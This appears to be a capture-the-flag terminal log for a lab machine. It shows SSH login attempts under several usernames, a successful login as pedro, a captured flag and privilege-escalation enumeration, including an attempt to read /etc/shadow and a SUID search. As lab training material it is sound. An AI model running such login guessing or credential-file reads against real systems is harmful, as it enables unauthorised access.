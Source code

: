 ```

┌──(kali㉿kali)-[~]
└─$ ssh john@10.10.254.225                               
The authenticity of host '10.10.254.225 (10.10.254.225)' can't be established.
ED25519 key fingerprint is SHA256:V/8G3mpnlCv/7PyT/47/lXkPvwwFule0P6GZ7ZbqpAk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.254.225' (ED25519) to the list of known hosts.
john@10.10.254.225's password: 

Permission denied, please try again.
john@10.10.254.225's password: 
Permission denied, please try again.
john@10.10.254.225's password: 
john@10.10.254.225: Permission denied (publickey,password).

┌──(kali㉿kali)-[~]
└─$ ssh admin@10.10.254.225
admin@10.10.254.225's password: 
Permission denied, please try again.
admin@10.10.254.225's password: 
Permission denied, please try again.
admin@10.10.254.225's password: 
admin@10.10.254.225: Permission denied (publickey,password).

┌──(kali㉿kali)-[~]
└─$ ssh pedro@10.10.254.225
pedro@10.10.254.225's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Wed Jun 23 03:34:24 2021 from 192.168.100.250
pedro@nosql-nolife:~$ whoami;id
pedro
uid=1001(pedro) gid=1001(pedro) groups=1001(pedro)
pedro@nosql-nolife:~$ ls
flag.txt
pedro@nosql-nolife:~$ cat flag.txt
flag{N0Sql_n01iF3!}

pedro@nosql-nolife:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
pedro@nosql-nolife:~$ sudo -l
[sudo] password for pedro: 
Sorry, user pedro may not run sudo on nosql-nolife.
pedro@nosql-nolife:~$ find -perm -4000 2>/dev/null | xargs ls -lah
total 32K
drwxr-xr-x 3 pedro pedro 4.0K Jun 23  2021 .
drwxr-xr-x 4 root  root  4.0K Jun 23  2021 ..
lrwxrwxrwx 1 pedro pedro    9 Jun 23  2021 .bash_history -> /dev/null
-rw-r--r-- 1 pedro pedro  220 Jun 23  2021 .bash_logout
-rw-r--r-- 1 pedro pedro 3.7K Jun 23  2021 .bashrc
drwx------ 2 pedro pedro 4.0K Jun 23  2021 .cache
-rw-rw-r-- 1 pedro pedro   20 Jun 23  2021 flag.txt
-rw-r--r-- 1 pedro pedro  807 Jun 23  2021 .profile
-rw------- 1 pedro pedro  734 Jun 23  2021 .viminfo

┌──(kali㉿kali)-[~]
└─$ service apache2 start

and visit http://10.8.19.103/
```